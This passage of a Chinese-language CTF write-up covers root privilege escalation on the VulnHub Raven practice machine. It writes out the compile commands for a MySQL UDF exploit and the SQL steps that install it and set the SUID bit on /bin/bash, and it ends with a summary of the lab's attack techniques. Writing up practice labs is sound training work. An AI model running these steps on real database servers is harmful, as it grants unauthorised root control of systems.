 ```mysql
show variables like '%plugin%';
```

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-1\37.jpg)

在`kali`中搜索漏洞

```shell
searchsploit mysql 5.0 udf
```

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-1\38.jpg)

查看`c`文件，其中有用法

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-1\39.jpg)

先在`kali`中编译为`.so`文件，因为在靶机测试，编译出问题，然后下载到靶机

```shell
gcc -g -c 1518.c
gcc -g -shared -Wl,-soname,test.so -o 1518.so 1518.o -lc
```

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-1\40.jpg)

在靶机内连接数据库，执行下面命令

```mysql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
create function do_system returns integer soname '1518.so';
select * from mysql.func;
select do_system('chmod u+s /bin/bash');
```

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-1\41.jpg)

这时候查询是否成功，并执行`do_system()`，以进行提取，当然这里不止这一种方式，对于其他的可以再尝试

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-1\42.jpg)

查看`/bin/bash`的权限，发现确实是变为`suid`权限了，执行后，提取至`root`

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-1\43.jpg)



# 总结

该靶场考察以下几点：

1. 对于网站具有`php`文件，可进行模糊测试，可能具有隐藏参数
2. 最好通过`burp`代理进行每一步操作，这样可根据数据包分析可能的步骤
3. 对于`php mailer`漏洞的了解与利用，编号`CVE-2016-10033`
4. `ssh`爆破的使用
5. 对于解密操作，可通过`john`，这里是省事，采用网站识别的
6. 提权方式这里就是因为连接`mysql`的用户权限过于大，并且还可以写入和导出，所以采用`udf`提权
7. 对于`sudo`提权的了解
